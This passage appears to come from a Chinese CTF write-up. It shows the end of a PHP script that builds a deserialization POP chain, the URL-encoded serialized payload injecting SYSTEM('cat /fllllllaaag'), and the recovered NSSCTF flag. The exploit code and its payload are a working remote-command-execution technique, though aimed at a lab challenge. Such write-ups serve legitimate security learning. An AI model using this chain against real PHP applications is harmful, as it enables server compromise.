 ```
    public $a;
    private $fun = "sixsixsix";             //需要让fun="sixsixsix"才能执行大小写转换的代码
}
$a = new NISA();
$b = new TianXiWei();
$c = new Ilovetxw();
$d = new four();
$c -> su = $a;                              //给$su赋值为对象NISA，触发invoke
$d ->a = $c;                                //给$a赋值为对象Ilovetxw，触发toString
$c ->huang = $d;                            //给$huang赋值为对象four，触发set
$b ->ext = $c;                              //给$ext赋值为对象Ilovetxw，触发call
echo urlencode(serialize($b));              //执行反序列化,触发wakeup
?>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpO7ciaNdOnuTZzUaklic6lcLMs6JRDHgxgnzfunkjqS2bLQJlaX8cCOHZLVM3JVKYr5rADe922zkvww/640?wx_fmt=png&from=appmsg "")  
  
**回显结果：**  
```
O%3A9%3A%22TianXiWei%22%3A2%3A%7Bs%3A3%3A%22ext%22%3BO%3A8%3A%22Ilovetxw%22%3A2%3A%7Bs%3A5%3A%22huang%22%3BO%3A4%3A%22four%22%3A2%3A%7Bs%3A1%3A%22a%22%3Br%3A2%3Bs%3A9%3A%22%00four%00fun%22%3Bs%3A9%3A%22sixsixsix%22%3B%7Ds%3A2%3A%22su%22%3BO%3A4%3A%22NISA%22%3A2%3A%7Bs%3A3%3A%22fun%22%3BN%3Bs%3A8%3A%22txw4ever%22%3Bs%3A27%3A%22SYSTEM%28%27cat+%2Ffllllllaaag%27%29%3B%22%3B%7D%7Ds%3A1%3A%22x%22%3BN%3B%7D
```  
  
**FLAG：**  
```
NSSCTF{a155432b-5656-4b9b-9a6e-9fd7160219c1}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/icdGEWOnYLpO7ciaNdOnuTZzUaklic6lcLMYZ9ROKEBh0Vkr3w5x6icdIcJicHicW1NDpaFX7TNFwILB4umUAyaZD0Dg/640?wx_fmt=jpeg&from=appmsg "")  
  
